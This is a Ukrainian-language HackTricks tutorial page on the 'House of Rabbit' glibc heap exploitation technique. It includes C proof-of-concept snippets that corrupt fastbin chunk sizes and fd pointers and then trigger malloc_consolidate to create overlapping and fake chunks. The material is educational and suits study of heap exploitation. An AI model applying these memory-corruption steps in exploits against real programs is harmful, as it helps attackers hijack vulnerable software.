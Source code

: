 # Будинок кролика

{% hint style="success" %}
Вивчайте та практикуйте взлом AWS: <img src="/.gitbook/assets/arte.png" alt="" data-size="line">[**Навчання HackTricks AWS Red Team Expert (ARTE)**](https://training.hacktricks.xyz/courses/arte)<img src="/.gitbook/assets/arte.png" alt="" data-size="line">\
Вивчайте та практикуйте взлом GCP: <img src="/.gitbook/assets/grte.png" alt="" data-size="line">[**Навчання HackTricks GCP Red Team Expert (GRTE)**<img src="/.gitbook/assets/grte.png" alt="" data-size="line">](https://training.hacktricks.xyz/courses/grte)

<details>

<summary>Підтримайте HackTricks</summary>

* Перевірте [**плани підписки**](https://github.com/sponsors/carlospolop)!
* **Приєднуйтесь до** 💬 [**групи Discord**](https://discord.gg/hRep4RUj7f) або [**групи telegram**](https://t.me/peass) або **слідкуйте** за нами на **Twitter** 🐦 [**@hacktricks\_live**](https://twitter.com/hacktricks\_live)**.**
* **Поширюйте хакерські трюки, надсилаючи PR до** [**HackTricks**](https://github.com/carlospolop/hacktricks) та [**HackTricks Cloud**](https://github.com/carlospolop/hacktricks-cloud) репозиторіїв на GitHub.

</details>
{% endhint %}

### Вимоги

1. **Можливість змінювати вказівник fd або розмір fast bin**: Це означає, що ви можете змінити впередній вказівник шматка в fastbin або його розмір.
2. **Можливість викликати `malloc_consolidate`**: Це можна зробити або виділивши великий шматок, або об'єднавши верхній шматок, що змушує купу об'єднувати шматки.

### Цілі

1. **Створення перекриваючихся шматків**: Мати один шматок, який перекривається з іншим, що дозволяє подальші маніпуляції купою.
2. **Фальшиві шматки**: Обманути алокатор, щоб він розглядав фальшивий шматок як законний під час операцій з купою.

## Кроки атаки

### POC 1: Зміна розміру шматка fast bin

**Мета**: Створення перекриваючого шматка шляхом маніпулювання розміром шматка fastbin.

* **Крок 1: Виділення шматків**
```cpp
unsigned long* chunk1 = malloc(0x40);  // Allocates a chunk of 0x40 bytes at 0x602000
unsigned long* chunk2 = malloc(0x40);  // Allocates another chunk of 0x40 bytes at 0x602050
malloc(0x10);                          // Allocates a small chunk to change the fastbin state
```
* **Крок 2: Звільнення чанків**
```cpp
free(chunk1);  // Frees the chunk at 0x602000
free(chunk2);  // Frees the chunk at 0x602050
```
* **Крок 3: Змінити Розмір Частини**
```cpp
chunk1[-1] = 0xa1;  // Modify the size of chunk1 to 0xa1 (stored just before the chunk at chunk1[-1])
```
Ми змінюємо метадані розміру `chunk1` на 0xa1. Це ключовий крок для обману алокатора під час консолідації.

* **Крок 4: Викликати `malloc_consolidate`**
```cpp
malloc(0x1000);  // Allocate a large chunk to trigger heap consolidation
```
Виділення великого фрагмента спричиняє виклик функції `malloc_consolidate`, яка об'єднує невеликі фрагменти у швидкому блоці. Змінений розмір `chunk1` призводить до перекриття з `chunk2`.

Після консолідації `chunk1` перекривається з `chunk2`, що дозволяє подальшу експлуатацію.

### POC 2: Зміна вказівника `fd`

**Мета**: Створення фальшивого фрагмента шляхом маніпулювання вказівником `fd` швидкого блоку.

* **Крок 1: Виділення фрагментів**
```cpp
unsigned long* chunk1 = malloc(0x40);  // Allocates a chunk of 0x40 bytes at 0x602000
unsigned long* chunk2 = malloc(0x100); // Allocates a chunk of 0x100 bytes at 0x602050
```
**Пояснення**: Ми виділяємо два блоки, один менший і один більший, щоб налаштувати купу для фальшивого блоку.

* **Крок 2: Створення фальшивого блоку**
```cpp
chunk2[1] = 0x31;  // Fake chunk size 0x30
chunk2[7] = 0x21;  // Next fake chunk
chunk2[11] = 0x21; // Next-next fake chunk
```
* **Крок 3: Звільнення `chunk1`**
```cpp
free(chunk1);  // Frees the chunk at 0x602000
```
**Пояснення**: Ми вивільняємо `chunk1`, додаючи його до списку fastbin.

* **Крок 4: Змінюємо `fd` `chunk1`**
```cpp
chunk1[0] = 0x602060;  // Modify the fd of chunk1 to point to the fake chunk within chunk2
```
**Пояснення**: Ми змінюємо вказівник вперед (`fd`) `chunk1`, щоб він вказував на наш фальшивий чанк всередині `chunk2`.

* **Крок 5: Викликати `malloc_consolidate`**
```cpp
malloc(5000);  // Allocate a large chunk to trigger heap consolidation
```
Виділення великого шматка знову спричинює виклик `malloc_consolidate`, який обробляє фейковий шматок.

Фейковий шматок стає частиною списку fastbin, роблячи його законним шматком для подальшої експлуатації.

### Огляд

Техніка **House of Rabbit** включає в себе зміну розміру шматка fast bin для створення перекриваючихся шматків або маніпулювання вказівником `fd` для створення фейкових шматків. Це дозволяє зловмисникам фальшивити законні шматки в купі, що дозволяє різноманітні форми експлуатації. Розуміння та практика цих кроків покращить ваші навички експлуатації купи.

{% hint style="success" %}
Вивчайте та практикуйте Хакінг AWS:<img src="/.gitbook/assets/arte.png" alt="" data-size="line">[**Навчання HackTricks AWS Red Team Expert (ARTE)**](https://training.hacktricks.xyz/courses/arte)<img src="/.gitbook/assets/arte.png" alt="" data-size="line">\
Вивчайте та практикуйте Хакінг GCP: <img src="/.gitbook/assets/grte.png" alt="" data-size="line">[**Навчання HackTricks GCP Red Team Expert (GRTE)**<img src="/.gitbook/assets/grte.png" alt="" data-size="line">](https://training.hacktricks.xyz/courses/grte)

<details>

<summary>Підтримайте HackTricks</summary>

* Перевірте [**плани підписки**](https://github.com/sponsors/carlospolop)!
* **Приєднуйтесь до** 💬 [**групи Discord**](https://discord.gg/hRep4RUj7f) або [**групи telegram**](https://t.me/peass) або **слідкуйте** за нами на **Twitter** 🐦 [**@hacktricks\_live**](https://twitter.com/hacktricks\_live)**.**
* **Поширюйте хакерські трюки, надсилаючи PR до** [**HackTricks**](https://github.com/carlospolop/hacktricks) та [**HackTricks Cloud**](https://github.com/carlospolop/hacktricks-cloud) репозиторіїв на GitHub.

</details>
{% endhint %}

